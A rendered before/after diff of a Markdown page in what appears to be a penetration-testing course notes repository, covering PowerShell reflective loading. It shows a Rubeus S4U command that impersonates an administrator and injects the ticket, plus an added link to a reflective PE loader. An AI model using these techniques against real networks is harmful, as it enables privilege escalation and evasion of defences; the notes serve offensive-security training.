

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: PowerShell Reflecitve Load.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/PowerShell Reflecitve Load.md
+++ b/PowerShell Reflecitve Load.md
@@ -85,3 +85,6 @@ Luid: 0x0
 [+] Tickets successfully purged!
 
 PS C:\> [Rubeus.Program]::Main("s4u /user:web01$ /rc4:<ntlm_hash> /impersonateuser:administrator /msdsspn:<spn> /ptt".Split())  -> Example of calling Rubeus with arguments thourgh reflection
+```
+
+Alternatively we can use this script to reflecitvely load an x64 base64 PE(Portable Executable): https://github.com/Arno0x/CSharpScripts/blob/master/peloader.cs
````
